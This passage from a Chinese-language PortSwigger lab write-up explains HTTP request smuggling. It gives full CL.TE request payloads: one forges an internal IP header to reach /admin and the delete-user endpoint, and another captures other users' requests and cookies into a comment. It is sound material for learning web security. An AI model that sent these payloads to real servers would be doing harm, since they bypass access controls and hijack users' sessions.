![image-20220319181334902](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20220319181334902.png)

发现前端服务器自动会加上`X-XpZgRc-Ip`的请求头，如果我们直接加一样的内容会因为duplicate header names的原因而403，我们选择smuggling攻击将前端服务器多加的请求头隐藏掉

```http
POST / HTTP/1.1
Host: aca21f881e7fa688c0e81584004700af.web-security-academy.net
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:70.0) Gecko/20100101 Firefox/70.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: session=VfYd3AGPB3TOUZNTRF2frj0c5kNJgBpw
Content-Length: 75
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
X-XpZgRc-Ip: 127.0.0.1
Content-Length: 10

x=1

```

回显删除carlos的api /admin/delete?username=carlos

#### 获取其它用户请求

原理跟上面泄露字段大体相同，既然能得到中间件请求 我们也可以尝试得到其它用户的请求和cookie等

```http
POST / HTTP/1.1
Host: ac951f7d1e9ea625803c617f003f005c.web-security-academy.net
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:70.0) Gecko/20100101 Firefox/70.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: session=ipRivKyVnK41ZGBQk7JvtKjbD4drk2At
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 271
Transfer-Encoding: chunked

0

POST /post/comment HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 600
Cookie: session=ipRivKyVnK41ZGBQk7JvtKjbD4drk2At

csrf=oIjWmI8aLjIzqX18n5mNCnJieTnOVWPN&postId=5&name=1&email=1%40qq.com&website=http%3A%2F%2Fwww.baidu.com&comment=1


```
